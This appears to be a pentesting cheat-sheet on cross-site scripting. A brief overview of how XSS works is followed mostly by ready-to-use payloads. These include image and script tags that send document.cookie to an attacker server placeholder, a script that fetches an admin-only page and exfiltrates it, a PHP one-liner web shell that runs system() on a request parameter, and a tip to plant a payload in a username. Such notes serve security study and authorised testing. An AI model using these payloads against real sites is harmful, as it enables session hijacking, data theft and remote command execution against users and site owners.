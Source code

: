 # XSS - Cross Site Scripting

## Overview

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page

## Description

Cross-Site Scripting (XSS) attacks occur when:

Data enters a Web application through an untrusted source, most frequently a web request.
The data is included in dynamic content that is sent to a web user without being validated for malicious content.



## Common Payloads

Steal cookies

	<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>
	<img src=x onerror=fetch("http://<YOUR_SERVER_IP>/"+document.cookie)>
	"><img src=x onerror=fetch("http://<YOUR_SERVER_IP>/"+document.cookie)>
	'><img src=x onerror=fetch("http://<YOUR_SERVER_IP>/"+document.cookie)>
	<script>document.location='http://<YOUR_SERVER_IP>/?cookie='+document.cookie;</script>

If there is no cookie, e can also try to access pages the only the admin can have access, by doing:

	<script>
	fetch("http://page_that_only_admin_has_access_to")
	.then(response => response.text()) // Convert the response to text
	.then(data => {
		fetch("http://our_server_ip/?data=" + encodeURIComponent(data)); // Exfiltrate data
	})
	.catch(error => console.error("Error fetching the messages:", error));
	</script>

This fetches the page that onyl the admin has access to, converts it to text, uri encodes it, and then sends the data back to us.

## php payloads

	if isset($_REQUEST['cmd']){
		system($_REQUEST['cmd']);
	}
	then we pass the cmd arg in the request:
	<url>?cmd=whoami

## Tips

If the username might be seen by an admin account, try to register a username as a xss payload


## Relevant Information

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

https://owasp.org/www-community/attacks/xss/

https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting